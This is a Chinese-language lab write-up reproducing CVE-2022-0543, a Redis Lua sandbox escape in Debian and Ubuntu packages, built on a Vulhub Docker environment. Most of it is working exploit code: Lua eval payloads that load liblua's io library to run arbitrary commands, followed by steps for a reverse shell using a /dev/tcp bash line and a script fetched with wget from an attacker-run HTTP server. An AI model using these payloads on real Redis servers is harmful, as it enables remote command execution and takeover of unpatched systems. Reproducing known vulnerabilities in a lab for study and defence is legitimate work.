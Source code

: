 # Redis Lua 沙盒绕过命令执行 CVE-2022-0543

## 漏洞描述

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象`package`，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

参考链接：

- https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce
- https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787

## 环境搭建

Vulhub执行如下命令启动一个使用Ubuntu源安装的Redis 5.0.7服务器：

```
docker-compose up -d
```

服务启动后，我们可以使用`redis-cli -h your-ip`连接这个redis服务器。

## 漏洞复现

借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。在Lua中执行这个导出函数，即可获得`io`库，再使用其执行命令：

```
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

值得注意的是，不同环境下的liblua库路径不同，你需要指定一个正确的路径。在我们Vulhub环境（Ubuntu fiocal）中，这个路径是`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`。

连接redis，使用`eval`命令执行上述脚本：

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![image-20220412154207162](images/image-20220412154207162.png)

### 反弹shell

直接bash反弹shell失败，尝试其他方法。

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash -i >& /dev/tcp/your-ip/6666 0>&1", "r"); local res = f:read("*a"); f:close(); return res' 0
```

攻击端编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/your-ip/6666 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

受控端执行以下两条命令即可反弹shell：

```
# 上传shell.sh文件
wget your-ip/shell.sh

# 执行shell.sh文件
bash shell.sh
```

结合当前漏洞，连接redis，使用`eval`命令执行脚本：

```
# 上传shell.sh文件
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("wget your-ip/shell.sh", "r"); local res = f:read("*a"); f:close(); return res' 0

# 执行shell.sh文件
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash shell.sh", "r"); local res = f:read("*a"); f:close(); return res' 0
```

攻击端监听666端口，成功接收反弹shell：

![image-20220412154740423](images/image-20220412154740423.png)